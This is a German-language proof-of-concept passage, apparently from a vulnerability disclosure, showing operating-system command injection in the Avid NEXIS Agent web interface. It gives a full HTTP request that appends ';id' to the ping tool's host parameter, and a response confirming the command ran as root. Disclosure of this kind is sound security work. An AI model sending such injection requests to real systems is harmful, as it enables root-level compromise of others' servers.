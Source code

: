 ### Proof of Concept

Die Schwachstelle kann mit folgender `GET`-Anfrage ausgelöst werden:

```http
GET /agent?r=tools&type=ping&host=127.0.0.1;id HTTP/1.1
Host: 192.168.40.141:5015
Cookie: avidagent=12345; userveragenttoken=3543434935133395140
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/119.0.6045.159 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: */*
Sec-Fetch-Site: same-origin
 Sec-Fetch-Mode: no-cors
 Sec-Fetch-Dest: script
 Referer: https://192.168.40.141:5015/agent
 Accept-Encoding: gzip, deflate, br
 Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
 Priority: u=1
 Connection: close
 ```
 
 Die Antwort sieht dann in etwa so aus (verkürzt):
 
 ```http
 HTTP/1.1 200 OK
Server: gSOAP/2.8
Content-Type: text/html; charset=utf-8
Content-Length: 3581
Connection: close
<html>
<head>
<title>192.168.40.141 - Avid NEXIS&#174; Agent 22.12.0.174</title>
...
<b class='rtop'><b class='r1'></b><b class='r2'></b><b class='r3'></b><b class='r4'></b></b><div id="content">12 <div style='display:none;' id='glassPane'><span class='aligner'></span><h4 class='align' id='glassPaneMessage'></h4></div><h2 class="table-title">
Ping Results
</h2>
<div class="plain">
<pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.040 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.045 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.067 ms
--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2029ms
rtt min/avg/max/mdev = 0.040/0.050/0.067/0.014 ms
uid=0(root) gid=0(root) groups=0(root)context=system_u:system_r:unconfined_service_t:s0
</pre></div>
</div>
...
```
